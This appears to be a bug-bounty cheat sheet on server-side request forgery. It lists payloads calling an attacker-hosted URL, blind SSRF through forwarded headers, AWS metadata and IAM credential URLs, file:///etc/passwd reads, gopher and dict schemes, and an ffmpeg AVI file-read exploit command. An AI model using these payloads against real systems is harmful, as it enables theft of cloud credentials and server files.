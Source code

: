 # SSRF

payload : `www.attacker.com/?`    <-- https://hackerone.com/reports/2442626

Use [[Certbot]] to make our http server to https to allow target website to ping our attacker hosted website.

Spider a domain in burpsuite.
Search for `url=` `request=` `load=` `redirect=` `fetch=` `page=` `site=` `open=` `entry=` `target=` `Destination=` `Uri=` `file=`

### Blind SSRF

X-Forwarded-Host, X-Forwarded-For, X-HOST etc,

Add this header in the request followed by our attacker URL. 

it will send cookies, internal requests, IP. To our server.

SVG  `https://github.com/allanlw/svg-cheatsheet`

##### AWS Meta Data Service 
SSRF -> AWS Metadata Service
https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
`<iframe src="http://169.254.169.254/latest/meta-data/"></iframe>`
`<img src="file:///etc/passwd">`

```
http:// 169.254.169.254/latest/meta—data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta—data/iam/security-credentials/IAM_USER_ROLE_HERE
http://169.254.169.254/latest/meta-data/iam/security-credentialsl/PhotonInstance
```

SSRF to Accessing Cloud Meta Data 

https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b

##### SSRF to LFI 

`file://etc/passwd`

Double Encode URL to avoid black listing ()


---

### URL Schemes to Check 

```
file://
dict://
sftp://
ldap://
ldaps://
ldapi://
tfpt://
gopher://
```

### SSRF to XSS

Host a file in attacker server or any where publicly, give that to make an XSS. (the file will contain XSS payload).

### SSRF to FFMPEG

if any Video upload functionality is there in the website we can exploit this.

https://github.com/neex/ffmpeg-avi-m3u-xbin

`./gen_xbin_avi.py file://<filename> file_read.avi`

